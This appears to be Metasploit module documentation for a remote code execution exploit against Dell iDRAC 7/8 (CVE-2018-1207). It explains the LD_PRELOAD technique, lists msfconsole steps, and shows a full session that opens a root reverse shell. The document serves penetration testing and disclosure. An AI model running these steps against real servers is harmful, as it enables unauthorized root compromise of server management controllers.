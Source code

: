 ## Description  

Dell IDRAC servers prior to firmware version 2.52.52.52 are vulnerable to an unauthenticated remote code execution vulnerability, CVE-2018-1207. This exploit makes use of CGI environment variables to upload a reverse shell and hook LD_PRELOAD to obtain a connection. This process has the potential to fork bomb the system, so this module safely unsets the LD_PRELOAD variable on connection to the reverse shell. The servers run on the SH4 architecture, which requires cross-compiling with the gcc-8-sh4-linux-gnu package. Only a reverse shell is supported at this time.

## Vulnerable Application  

Dell IDRAC 7/8


## Vulnerable Application Installation Setup.

Generation 12 and 13 Dell PowerEdge servers are vulnerable. 

https://en.wikipedia.org/wiki/List_of_Dell_PowerEdge_Servers

## Verification Steps  

  1. Identify an IDRAC 7 or 8 appliance
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/dell_idrac_upload_exec```
  4. Do: ``set rhosts <ip>``
  5. Do: ``set rport <80/443>``

``[*] 192.168.0.10 The target is vulnerable.``

  6. Do: ``set lhost <ip>``
  7. Do: ``set lport <port>``
  8. Do: ``exploit``
  9. You should get a shell.

## Scenarios  

TESTED AGAINST LINUX

```
msf5 > use exploit/linux/http/dell_idrac_upload_exec
msf5 exploit(linux/http/dell_idrac_upload_exec) > options 

Module options (exploit/linux/http/dell_idrac_upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   TIMEOUT  15               no        Override default timeout for reqeusts
   VHOST                     no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/http/dell_idrac_upload_exec) > set rhosts 192.168.0.10
rhost => 192.168.0.10
msf5 exploit(linux/http/dell_idrac_upload_exec) > check
[*] Sending request to http://192.168.0.10/cgi-bin/login?LD_DEBUG=files
[*] Valid response received...
[+] 192.168.0.10:80 The target is vulnerable.
msf5 exploit(linux/http/dell_idrac_upload_exec) > set lhost 192.168.0.5
lhost => 192.168.0.5
msf5 exploit(linux/http/dell_idrac_upload_exec) > exploit 
[*] Started reverse TCP handler on 192.168.0.5:4444
[*] Sending request to http://192.168.0.10/cgi-bin/login?LD_DEBUG=files
[*] Valid response received...
[*] Sending request for http://192.168.0.10/cgi-bin/putfile
[*] 192.168.0.10 - Exploit Upload Success
[*] Command shell session 1 opened (192.168.0.5:4444 -> 192.168.0.10:45038) at 2020-02-26 12:51:27 -0600

id
uid=0(root) gid=0(root)
```
